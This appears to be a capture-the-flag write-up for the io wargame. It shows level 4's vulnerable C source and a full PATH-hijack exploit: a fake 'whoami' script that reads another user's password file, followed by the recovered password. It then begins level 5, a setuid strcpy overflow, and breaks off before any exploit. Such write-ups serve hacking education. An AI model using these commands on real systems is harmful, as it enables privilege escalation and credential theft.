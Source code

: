 ## level 4

```
level4@io:~$ /levels/level04
Welcome level5
level4@io:~$ cat /levels/level04.c
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);

        return 0;
}
```

At the begining I tought I could overflow `username` on the `fgets()` function, but later I have realized that the `popen` is a Linux syscall which pipes a command line execution and by passing the argument `r` it is reading from the child process. Arg `w` does the opposite. All I have to do is to fake the `whoami` bin.

```bash
level4@io:~$ mkdir /tmp/nohere && cd /tmp/nohere
level4@io:/tmp/nohere$ vim whoami
level4@io:/tmp/nohere$ chmod +x whoami
level4@io:/tmp/nohere$ cat whoami
#!/bin/sh
cat /home/level5/.pass
level4@io:/tmp/nohere$ whoami
level4
level4@io:/tmp/nohere$ echo $PATH
/usr/local/radare/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
level4@io:/tmp/nohere$ export PATH=/tmp/nohere:$PATH
level4@io:/tmp/nohere$ whoami
cat: /home/level5/.pass: Permission denied
level4@io:/tmp/nohere$ /levels/level04
Welcome DNLM3Vu0mZfX0pDd
```
## level 5

```
level5@io:~$ cat /levels/level05.c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
        char buf[128];
        if(argc < 2) return 1;
        strcpy(buf, argv[1]);
        printf("%s\n", buf);
        return 0;
}

level5@io:~$ ls -ltra /levels/level05
-r-sr-x--- 1 level6 level5 7140 Nov 16  2007 /levels/level05
```
